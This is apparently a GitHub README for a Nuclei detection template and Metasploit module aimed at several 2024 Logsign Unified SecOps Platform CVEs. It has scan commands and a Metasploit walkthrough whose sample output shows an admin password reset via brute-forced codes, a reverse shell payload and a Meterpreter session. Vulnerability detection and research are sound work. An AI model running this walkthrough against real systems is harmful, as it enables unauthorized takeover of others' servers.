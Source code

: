 # Logsign Unified SecOps Platform Nuclei Template Scanner

## Explanation:

This repository contains Nuclei template for detecting multiple vulnerabilities in Logsign Unified SecOps Platform. The template are designed to identify the following vulnerabilities:

- **ZDI-CAN-24164 > CVE-2024-5716**: Logsign Unified SecOps Platform Authentication Bypass Vulnerability
- **ZDI-CAN-24165 > CVE-2024-5717**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24166 > CVE-2024-5718**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24167 > CVE-2024-5719**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24168 > CVE-2024-5720**: Logsign Unified SecOps Platform Command Injection Remote Code Execution Vulnerability
- **ZDI-CAN-24169 > CVE-2024-5721**: Logsign Unified SecOps Platform Missing Authentication Remote Code Execution Vulnerability
- **ZDI-CAN-24170 > CVE-2024-5722**: Logsign Unified SecOps Platform HTTP API Hard-coded Cryptographic Key Remote Code Execution Vulnerability

The metasploit exploit phase will be updated...

## Usage

To use these template with Nuclei, follow the example steps below:

### Clone the repository:

```sh
git clone https://github.com/j4nk3/logsign-unauth-rce.git
cd logsign-unauth-rce
```
### Usage with Nuclei:

**Single Target:**
```sh
nuclei -u https://target.com -t logsign-unauth-rce.yaml -nh
```
**Multiple Target:**
```sh
nuclei -l urls.txt -t logsign-unauth-rce.yaml -nh
```

### Usage with Metasploit
```
# Step 1: Copy the .rb file to the Metasploit modules directory
sudo cp logsign-unauth-rce.rb /usr/share/metasploit-framework/modules/auxiliary/exploit/

# Step 2: Start Metasploit
msfconsole

# Step 3: Load the module
msf6 > use auxiliary/exploit/logsign-unauth-rce

# Step 4: Set the required options
msf6 auxiliary(exploit/logsign-unauth-rce) > set TARGETURI /
msf6 auxiliary(exploit/logsign-unauth-rce) > set USERNAME admin
msf6 auxiliary(exploit/logsign-unauth-rce) > set LHOST 0.0.0.0
msf6 auxiliary(exploit/logsign-unauth-rce) > set LPORT 1337
msf6 auxiliary(exploit/logsign-unauth-rce) > set RHOSTS 192.168.1.10
msf6 auxiliary(exploit/logsign-unauth-rce) > set RPORT 443

# Step 5: Run the exploit
msf6 auxiliary(exploit/logsign-unauth-rce) > run

[*] Resetting admin password using CVE-2024-5716...
[*] Forget password request sent for user: admin
[*] Successfully brute-forced reset code: 123456, verification code: 7890
[*] Password successfully reset to: Hkdi2983jdlGfdLS
[*] Successfully logged in with the new password. Session cookie: PHPSESSID=abcd1234...
[*] Sending reverse shell payload...
[*] Exploit completed, waiting for session...

[*] Meterpreter session 1 opened (192.168.1.100:1337 -> 192.168.1.10:443) at 2024-08-12 12:34:56 +0000
msf6 auxiliary(exploit/cve_2024_5716_5717_pre_auth_rce) >

```

Many thanks to @mdisec (Mehmet Ince) for the security research and critical finding detections performed on this product.

## Contributing
Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.

## License
This project is licensed under the MIT License.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
